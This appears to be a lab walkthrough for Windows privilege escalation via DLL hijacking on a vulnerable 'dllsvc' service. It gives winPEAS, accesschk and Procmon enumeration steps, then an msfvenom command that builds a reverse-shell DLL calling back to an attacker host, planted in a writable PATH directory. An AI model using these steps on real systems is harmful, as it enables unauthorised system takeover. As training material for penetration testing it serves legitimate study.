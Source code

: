 1.Use winPEAS to enumerate non-Windows services:

```
.\winPEASany.exe quiet servicesinfo
```


2.Note that the `C:\Temp` directory is writable and in the PATH. 

Start by enumerating which of these services our user has stop and start access to:

```
 .\accesschk.exe /accepteula -uvqc user dllsvc
```


3.The `“dllsvc”` service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the `dllhijackservice.exe` executable. 

We can confirm this manually:

```
 sc qc dllsvc
```

4.Run `Procmon64.exe` with administrator privileges. Press
Ctrl+L to open the Filter menu.

5.Add a new filter on the Process Name matching
`dllhijackservice.exe.`

6.On the main screen, deselect registry activity and
network activity.

7.Start the service:

`net start dllsvc`


8.Back in Procmon, note that a number of “NAME NOT
FOUND” errors appear, associated with the `hijackme.dll file.`

9.At some point, Windows tries to find the file in the C:\Temp
directory, which as we found earlier, is writable by our user.

10. On Kali, generate a reverse shell DLL named hijackme.dll:

```
 msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.1.11 LPORT=53 -f dll -o
hijackme.dll
```

11. Copy the DLL to the Windows VM and into the `C:\Temp `directory. 

Start a listener on Kali and then stop/start the service to trigger the exploit:

```
net stop dllsvc

net start dllsvc
```